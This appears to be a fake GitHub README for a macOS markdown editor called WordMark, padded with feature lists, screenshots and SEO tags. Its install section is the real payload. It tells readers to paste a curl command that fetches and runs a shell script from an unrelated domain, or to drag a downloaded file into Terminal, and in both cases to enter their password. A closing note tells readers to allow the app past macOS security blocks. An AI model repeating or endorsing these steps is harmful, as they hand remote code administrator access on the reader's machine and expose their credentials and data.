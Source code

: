 <p align="center">
  <img src="https://i.ibb.co/XrvrSyQX/1630422849-492x0w.png" width="350" alt="WordMark macOS Banner" />
</p>

<h1 align="center">WordMark for macOS</h1>

<p align="center">
  ✍️ A minimalist markdown editor with real-time preview, syntax highlighting, and export tools — perfect for writers, bloggers, and developers.  
  <br><br>
  ✅ Built for Distraction-Free Writing  
  ✅ Apple Silicon & macOS Sonoma Supported  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/246" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20WORDMARK%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download WordMark for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/Vp9zSVJP/1630422858-1.jpg" alt="WordMark macOS Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is WordMark for macOS?

**WordMark** is a fast, lightweight markdown editor designed for writing-focused users. It offers live preview, syntax highlighting, multiple themes, and clean export to HTML and PDF formats — all in a distraction-free workspace.

Perfect for bloggers, developers writing documentation, and content creators who want to stay productive without the clutter.

---

## ✅ Why Choose WordMark?

- ⌨️ **Live Markdown Preview While Typing**  
- 🎨 **Themes for Light & Dark Environments**  
- 📄 **Export to HTML, PDF, and More**  
- 🧠 **Syntax Highlighting for Code Blocks**  
- ✍️ **Distraction-Free Focus Mode**  
- 🌍 **Supports Local & Cloud Storage**  
- 🍎 **Native Apple Silicon Support**  
- 💻 **Clean UI Built for macOS**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/jZxpPb82/1630422859-2.jpg" alt="WordMark Editor with Preview Panel" />
  <br><br>

</p>

---

## 🚀 Key Features

- Lightweight markdown writing  
- Multiple export formats  
- Table, image, and code support  
- Custom CSS themes  
- Word/character count tracking  
- Syntax highlight presets  
- Works offline — no login required  
- Auto-save & file history

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow WordMark manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Editor-Markdown+Live+Preview-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ WordMark – Write with Clarity

Thanks for using **WordMark for macOS**.  
Write, preview, and export — all in one place.

---

## 🧭 Usage Context

WordMark runs fully offline with no cloud dependency.  
Ideal for personal writing, blogging, note-taking, and documentation.  
All changes are saved locally and instantly — no background syncing.

---

## 🔍 Tags

```text
wordmark for mac download, markdown editor mac with live preview, wordmark native apple silicon support, distraction free writing app mac, best markdown editor macbook m1 m2, wordmark export to html pdf markdown, wordmark full version for sonoma ventura, markdown blog writing software macos, wordmark dark mode syntax highlight mac, real time markdown rendering mac, simple markdown writing utility macos, wordmark save local notes offline mode, macos markdown code block support, wordmark markdown preview export tools, lightweight editor for markdown mac
